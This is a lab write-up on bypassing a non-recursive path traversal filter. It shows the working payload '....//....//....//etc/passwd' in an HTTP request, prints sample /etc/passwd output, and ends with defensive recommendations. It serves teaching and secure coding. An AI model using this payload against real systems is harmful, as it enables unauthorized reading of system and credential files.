




# File Path Traversal - Traversal Sequences Stripped Non-Recursively


## Overview

In this lab the application attempts to protect against traversal attacks by removing traversal sequences such as `../` from the filename parameter before processing the request.

However, the filtering is performed only once ("non-recursively"). By crafting a payload that contains overlapping traversal sequences, it is possible to bypass the filter and still perform directory traversal.

---

## Objective

The objective of this lab was to bypass the application's traversal sequence filtering mechanism and access the contents of the sensitive Linux file:

```text
/etc/passwd
```

---

## Lab Scenario

The lab description stated:

> The application strips path traversal sequences from the user-supplied filename before using it.

This suggested that standard traversal payloads such as:

```text
../../../etc/passwd
```

would likely be sanitized before execution.

The goal was therefore to identify a bypass technique that would survive application's filtering process.

---

## Methodology

### Step 1: Identify the Image Request

After opening the application, I intercepted the image request using Burp Suite Proxy.

The application requested product images using:

```http
GET /image?filename=30.jpg
```



---

### Step 2: Analyze the Filtering Behavior

Based on the lab description, I understood that the application removed traversal sequences such as:

```text
../
```

before processing the filename.

A normal traversal payload such as:

```text
../../../etc/passwd
```

would therefore likely be modified or blocked.

To verify this behavior, I first tested a standard traversal payload.

**Payload Tested**

```text
../../../etc/passwd
```

**Result**

The application returned:

```text
No such file
```

indicating that the traversal sequences were being filtered before file resolution.




---

### Step 3: Craft a Filter Bypass Payload

Since the filtering appeared to remove traversal sequences only once, I attempted to create overlapping traversal patterns that would reconstruct valid traversal sequences after sanitization.

Instead of using  "**../** "  I used
"**....//**" and the idea was that if the application removed one instance of  "**../**"
, the remaining characters would still form 
"**../**" after processing.

So, the final payload became:

```text
....//....//....//etc/passwd
```

**Payload Used**

```http
GET /image?filename=....//....//....//etc/passwd
```

---

### Step 4: Retrieve Sensitive File

After sending the modified request through Burp Repeater, the application successfully returned the contents of the Linux password file.

which contained entries such as:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
carlos:x:1202:1202:/home/carlos:/bin/bash
```

This confirmed successful path traversal and arbitrary file disclosure.




---

### Step 5: Complete the Lab

After confirming the vulnerability, I forwarded the request and refreshed the page.

And just like that, lab was automatically marked as solved.



---

## Attack Flow

```text
User Requests Product Image
            ⇓
GET /image?filename=30.jpg
            ⇓
Traversal Filtering Detected
            ⇓
Standard Payload Tested
../../../etc/passwd
            ⇓
Request Fails
            ⇓
Analyze Filter Logic
            ⇓
Construct Overlapping Payload
....//....//....//etc/passwd
            ⇓
Filter Removes Single ../ Sequence
            ⇓
Remaining Payload Resolves To
../../../etc/passwd
            ⇓
Sensitive File Retrieved
            ⇓
        Lab Solved
```

---

## Impact

### ☞ Arbitrary File Read

Attackers can access files outside the intended directory structure.

Like:

```text
/etc/passwd
/etc/shadow
/etc/hosts
```

---

### ☞ Information Disclosure

Sensitive system information may be exposed, including:
- System configuration details
- Internal application files

---

### ☞ Credential Exposure

Configuration files may reveal:

- Database credentials
- API keys
- Service account secrets
- Cloud access tokens

---

### ☞ Source Code Disclosure

Attackers may gain access to:

- Application source code
- Internal APIs
- Hidden functionality
- Security controls

---

### ☞ Facilitation of Further Attacks

Information obtained through traversal vulnerabilities may assist with:

- Privilege escalation
- Authentication bypass
- Remote code execution
- Lateral movement within the environment

---

## Security Recommendations

### ▩ Avoid Blacklist-Based Filtering

Removing strings such as:

```text
../
```

is not sufficient.

Attackers can still create bypasses using alternative encodings and overlapping patterns.

---

### ▩ Use Canonical Path Validation

Resolve the final filesystem path using:

```php
realpath()
```

and verify that it remains within the intended directory.

---

### ▩ Restrict Access to Approved Directories

Ensure all file operations remain inside:

```text
/var/www/images/
```

or another designated directory.

---

### ▩ Implement Allowlisting

Only permit access to predefined image files.

Example:

```text
1.jpg
2.jpg
3.jpg
```

Reject all other values.

---

### ▩ Use Indirect File References

Instead of accepting user-supplied paths:

```text
?filename=image.jpg
```

use identifiers:

```text
?image=1
```

and map them internally.

---

## Key Takeaways

- Non-recursive filtering can often be bypassed using overlapping sequences.
- Path traversal protections should rely on canonical path validation rather than blacklist filtering.
- User-controlled filesystem paths should never be trusted.
- Allowlisting and directory restrictions provide stronger protection than input sanitization alone.

---

## Conclusion

In this lab, a File Path Traversal vulnerability was successfully exploited despite the application attempting to remove traversal sequences from user input. Using..

```text
....//....//....//etc/passwd
```

This demonstrates how weak sanitization techniques can be bypassed and highlights the importance of canonical path validation, allowlisting, and secure file handling practices.